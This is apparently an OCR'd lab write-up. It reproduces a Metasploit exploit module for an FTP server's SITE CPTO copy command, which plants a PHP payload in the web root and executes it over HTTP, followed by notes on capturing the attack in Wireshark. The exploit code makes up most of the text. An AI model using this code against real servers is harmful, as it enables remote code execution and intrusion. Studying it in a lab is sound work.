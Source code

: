 ```run``` to start exploit, after inside, i test with commands whoami and touch testi3.txt
    unless res && res.include?('350')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying from temporary payload file")
    end

+    # was stuck in this part before fixing SITEPATH
    sock.put("SITE CPTO #{datastore['SITEPATH']}/#{payload_name}\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('250')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying PHP payload to website path, directory not writable?")
    end

    sock.close

    # 
    register_file_for_cleanup("#{datastore['SITEPATH']}/#{payload_name}")

+    # execute the payload 
    uri = normalize_uri(target_uri.path, payload_name)
    print_status("Executing PHP payload #{uri}")
    res = send_request_cgi!(
      'uri' => uri,
      'vars_get' => { get_arg => "nohup #{payload.encoded} &" }
    )

    unless res && res.code == 200
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure executing payload")
    end
  end
end
```

<a name="c-network-sniffing"></a>
## 🌐 C) Network Sniffing the attack

Starting record on eth0 in wireshark, running the above exploit in msfconsole, waiting for session to open. run whoami and touch testi3.txt, end recording.
